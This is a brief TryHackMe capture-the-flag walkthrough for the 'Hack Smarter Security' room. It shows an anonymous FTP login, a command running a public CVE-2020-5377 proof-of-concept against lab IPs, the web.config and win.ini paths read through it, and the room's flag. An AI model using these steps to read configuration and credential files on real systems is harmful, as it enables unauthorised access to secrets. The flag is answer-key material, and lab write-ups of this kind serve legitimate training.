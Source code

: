 ### 23-Mar-24-Sat

[TryHackMe | Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/822b3b08-670c-4f68-b108-a1629138da88)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a13db521-7da8-4202-9fc3-c6eba70250fb)

```
ftp anonymous@hacksmarter.thm
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6b6b1042-c179-4479-9329-f10e39905d92)

https://0xb0b.gitbook.io/writeups/tryhackme/2024/hack-smarter-security#initial-foothold

https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py

```
python CVE-2020-5377.py 10.17.44.152 10.10.171.27:1311
```

```
C:\inetpub\wwwroot\application\web.config
```

```
C:\inetpub\wwwroot\hacksmartersec\web.config
```

```
C:\Windows\win.ini
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/536b34fa-04af-487a-a6f1-40f44e054c04)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a59e1e6c-019b-4515-9eee-e131179b4359)

```
THM{4ll15n0tw3llw1thd3ll}
```


